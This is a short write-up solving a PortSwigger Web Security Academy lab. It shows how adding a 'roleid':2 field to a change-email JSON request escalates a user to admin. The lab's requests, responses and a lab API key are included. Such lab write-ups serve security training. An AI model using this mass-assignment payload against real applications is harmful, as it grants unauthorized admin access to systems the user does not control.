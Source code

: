 # [Lab: User role can be modified in user profile](https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile)

This lab has an admin panel at `/admin`. It's only accessible to logged-in users with a `roleid` of 2.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

login to `wiener` account and test the change email function

original request:

```http
POST /my-account/change-email HTTP/1.1

{"email":"test@test.test"}
```

- response:

  ```json
  {
    "username": "wiener",
    "email": "test@test.test",
    "apikey": "NaQGHqoeUSzZMM40xGobvSXR4i0SJyPu",
    "roleid": 1
  }
  ```

## Solutions

fake `roleid` field in `change email` request body:

```json
{"email":"test@test.test", "roleid":2}
```

- response:

  ```json
  {
    "username": "wiener",
    "email": "test@test.test",
    "apikey": "NaQGHqoeUSzZMM40xGobvSXR4i0SJyPu",
    "roleid": 2
  }
  ```

=> now we can access to `/admin` endpoint.
